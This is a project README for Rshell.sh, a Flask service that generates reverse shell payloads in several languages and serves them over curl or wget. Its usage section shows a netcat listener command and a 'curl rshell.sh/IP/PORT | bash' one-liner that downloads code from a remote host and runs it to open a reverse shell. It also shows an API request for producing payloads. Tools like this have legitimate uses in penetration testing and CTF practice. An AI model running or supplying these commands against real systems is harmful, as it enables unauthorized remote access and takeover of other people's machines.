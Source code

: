 # Rshell.sh Reverse Shell Payloads aaS

[Live Site!](https://rshell.sh)

## Overview / How it works

This project is multi-language reverse shell payload generator written in
Python3 using the Flask web framework. The point is to make it easy to quickly
pull reverse shell payloads down from the *cloud* ☁️  to your terminal using
`curl` or `wget`. It also supports a robust JSON API to help the user integrate
automated remote reverse shell payload generation into their own applications.

## Basic Usage Info

### Example Usecase

* Setup your netcat listener:

```
nc -lvnp 1234
```

* Then query [`rshell.sh`](https://rshell.sh) to kick off the reverse shell:

```
curl rshell.sh/127.0.0.1/1234 | bash
```

### Languages Covered

* Bash
* Python
* Perl
* PHP
* Awk

### Shells Covered

* bash
* csh
* ksh
* zsh

### API

```
curl -X POST https://rshell.sh/api \
    -H "Content-Type: application/json" \
    -sd '{"host":"10.0.0.1", "port":1234, "lang":"python", "shell":"zsh"}'
```

### Help Page

See the project __[help page](https://rshell.sh/help)__ for more information.

You can also read the help page in your terminal!

```
curl rshell.sh/help | less
```

## Dev Site Install / Setup

The server-side setup is pretty straight forward and this is run just like any
other flask app. Of course the instructions below are for spinning up the dev
version. Production setup involves extra steps and depends on your hosting
environment.

* First clone the repo:

```
git clone https://github.com/BlueSquare23/Rshell.sh
```

* Then install the required python modules:

```
cd Rshell.sh
virtualenv venv             # Virtual Env Optional
source venv/bin/activate    # Virtual Env Optional
pip3 install -r requirements.txt
```

* Finally, run the project:

```
python3 app.py
```

### Testing

The test are written using [`pytest`](https://pytest.org/). You can run the
test code by cd'ing into the project's main directory and running pytest.

```
cd Rshell.sh
virtualenv venv             # Virtual Env Optional
source venv/bin/activate    # Virtual Env Optional
python3 -m pytest
```

## Technologies

* Language: [Python 3](https://www.python.org/)
* Web-Framework: [Flask](https://palletsprojects.com/p/flask/)

